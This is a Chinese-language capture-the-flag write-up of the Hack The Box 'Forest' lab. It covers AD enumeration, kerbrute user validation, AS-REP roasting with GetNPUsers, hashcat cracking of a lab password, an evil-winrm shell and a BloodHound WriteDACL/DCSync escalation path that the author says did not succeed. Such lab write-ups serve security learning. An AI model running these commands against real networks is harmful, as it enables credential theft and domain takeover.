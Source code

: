 ```yaml
---
description: Easy / 枚举 / AS-REP Roasting /滥用 WriteDACL / DCSync / Bloodhound
---
```


# ✔️ Forest

## 建立立足点

### 信息收集

* 使用Nmap对目标进行开放端口扫描：

```bash
nmap -sC -sV -p- -oA forest 10.129.154.107 --open
```

<figure><img src="../../.gitbook/assets/1 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/2 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 把IP地址和域名写入/etc/hosts文件：

<figure><img src="../../.gitbook/assets/3 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 通过之前的Nmap扫描结果发现并没有Web应用的相关开放端口，所以直接尝试各种匿名登录，SMB可以登录成功但是无收获，RPC不可以无密码登录：

```bash
smbclient -N -L 10.129.154.107
rpcclient 10.129.154.107
```

* 使用enum4linux对目标进行枚举，发现了目标系统上的用户名及其用户信息、密码策略、域组成员信息：

```bash
enum4linux 10.129.154.107
```

<figure><img src="../../.gitbook/assets/4 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/6 (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/8.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/9.png" alt=""><figcaption></figcaption></figure>

* 将这些用户名收集起来，试试哪些是域内有效的：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/7 (1).png" alt=""><figcaption></figcaption></figure>

* 31个用户名跑出来18个有效，再把这18个用户名汇总成一个users.txt文件：

```bash
./kerbrute_linux_amd64 username --dc 10.129.154.107 -d htb.local username.txt
```

<figure><img src="../../.gitbook/assets/10.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/11.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/12.png" alt=""><figcaption></figcaption></figure>

* 使用Impacket的脚本GetNPUsers.py尝试获取每个用户的哈希值：

```bash
./GetNPUsers.py 'htb.local/' -usersfile users.txt -format hashcat -outputfile hashes.txt -dc-ip 10.129.154.107
```

<figure><img src="../../.gitbook/assets/13 (10).png" alt=""><figcaption></figcaption></figure>

* 已找到了用户svc-alfresco 帐户的哈希值，将该哈希值保存为hashes.txt文件，然后查找该哈希对应的模式，hashcat暴力破解其明文密码：

```bash
hashcat -m 18200 hashes.txt rockyou.txt
```

<figure><img src="../../.gitbook/assets/14.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/15.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/16.png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 至此，以获取到一个有效凭证：<mark style="color:red;">**svc-alfresco:s3rvice**</mark>
* 利用这个有效凭证和evil-winrm，尝试get shell：

```bash
evil-winrm -i htb.local -u svc-alfresco -p 's3rvice' 
```

* 成功登录，并找到了第一个flag：

<figure><img src="../../.gitbook/assets/17.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/18 (7).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 按惯例上传winPEAS进行信息枚举，但是没有什么特别的收获：

```bash
# evil-winrm:
upload /root/Documents/HTB-AD/forest/tools/winPEASx64.exe
```

<figure><img src="../../.gitbook/assets/19.png" alt=""><figcaption></figcaption></figure>

* 上传sharphound进行信息收集，放入bloodhound中分析各个用户、组成员等之间的关系：

<figure><img src="../../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/21.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/22.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/23.png" alt=""><figcaption></figcaption></figure>

* 当前已控制的账户是svc-alfresco，查看最短到域管的路径发现，当前账户属于Service Accounts的成员，而Service Accounts又属于Privileged IT Accounts的成员，Privileged IT Accounts是Account Operators的成员，最后Account Operators的成员又是属于Exchange Windows Permissions的成员：

<figure><img src="../../.gitbook/assets/24.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/25.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/26 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/27 (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/28.png" alt=""><figcaption></figcaption></figure>

### ROOT

* 从bloodhound列举出的信息中可知Exchange Windows Permission在当前域中是有WriteDACL权限的，该权限可以允许用户修改对象的访问控制列表，这意味着拥有这个权限的账户可以自己赋予自己/其他账户DCSync同步权限。

{% hint style="info" %}
本例提权过程中，一种方式是赋予当前以控制的账户svc-alfrescoDCSync同步权限，还有一种是创建一个新的用户账户赋予它DCSync同步权限，已确定成功将相关账户加入到了Exchange Windows Permissions组，但是在用secretsdump提取域内用户账户的哈希密码时，两种均失败，暂不清楚原因。
{% endhint %}

*

{% hint style="info" %}
本例机器，在GET SHELL阶段常规的枚举尝试就有收获。提权过程太艰难了，以为是自己方向搞错了，看了网上提示后发现没有错，各种方式都尝试过了，还是一直报错，暂不清楚原因，后续再更新。本例Bloodhound分析过程没有以前的机器简单。

（本例中途重置过IP地址有变化，不影响其过程实现）
{% endhint %}
